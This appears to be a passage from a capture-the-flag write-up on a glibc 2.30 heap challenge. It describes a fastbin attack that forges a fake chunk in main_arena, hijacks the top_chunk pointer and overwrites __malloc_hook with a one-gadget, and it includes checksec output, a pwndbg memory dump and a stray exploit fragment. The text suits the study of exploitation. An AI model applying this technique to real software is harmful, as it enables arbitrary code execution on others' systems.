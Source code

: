 ```c

# Trigger the one gadget
malloc(1, b"")
```

## Challenge

The binary is 64-bit, glibc 2.30 binary. \
`checksec`:

```bash
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'../.glibc/glibc_2.30_no-tcache'
```

We do have a libc leak. \
It is possible to only allocate `fastbin` chunks, excluding 0x70 sized.


The first goal is to find a good __hook symbol. 

All of `__realloc_hook, __malloc_hook, __memalign_hook` contained a single possible fastbin chunk, but its size field is 0x7f - meaning it resides within the 0x70 fastbin, which we cannot allocate.

My idea consist of multiple stages:

1. We will forge a fake chunk on the heap arena

2. This chunk will be allocated, so that the `top_chunk` head pointer resides within its `user_content`. \
In that way, we will be able to control the `top_chunk` ptr.

3. The value of the `top_chunk` ptr would point towards the `__malloc_hook` (or somewhere similar) - that way, the top chunk `user_content` would overlap with the `__malloc_hook`. 

4. We would trigger an allocation from the `top_chunk`, and write it a one-gadget. \
That way, the one-gadget is written into the `__malloc_hook`

5. We will trigger a malloc call. 


By examining the `main_arena` content, i've noticed it is possible to initialize the fastbins, thus creating candidates for `find_fake_fast` - meaning the top chunk would be able to serve as a fake chunk, which we can corrupt.

```bash
pwndbg> x/30gx &main_arena
0x7ffff7dd0b60 <main_arena>:    0x0000000000000000      0x0000000000000001
0x7ffff7dd0b70 <main_arena+16>: 0x00005555556031a0      0x0000555555603170
0x7ffff7dd0b80 <main_arena+32>: 0x0000555555603130      0x00005555556031c0
0x7ffff7dd0b90 <main_arena+48>: 0x0000555555603080      0x0000000000000000
0x7ffff7dd0ba0 <main_arena+64>: 0x0000555555603000      0x0000000000000000
0x7ffff7dd0bb0 <main_arena+80>: 0x0000000000000000      0x0000000000000000
0x7ffff7dd0bc0 <main_arena+96>: 0x0000555555603210      0x0000000000000000
0x7ffff7dd0bd0 <main_arena+112>:        0x00007ffff7dd0bc0      0x00007ffff7dd0bc0
0x7ffff7dd0be0 <main_arena+128>:        0x00007ffff7dd0bd0      0x00007ffff7dd0bd0
0x7ffff7dd0bf0 <main_arena+144>:        0x00007ffff7dd0be0      0x00007ffff7dd0be0
0x7ffff7dd0c00 <main_arena+160>:        0x00007ffff7dd0bf0      0x00007ffff7dd0bf0
0x7ffff7dd0c10 <main_arena+176>:        0x00007ffff7dd0c00      0x00007ffff7dd0c00
0x7ffff7dd0c20 <main_arena+192>:        0x00007ffff7dd0c10      0x00007ffff7dd0c10
0x7ffff7dd0c30 <main_arena+208>:        0x00007ffff7dd0c20      0x00007ffff7dd0c20
0x7ffff7dd0c40 <main_arena+224>:        0x00007ffff7dd0c30      0x00007ffff7dd0c30
```
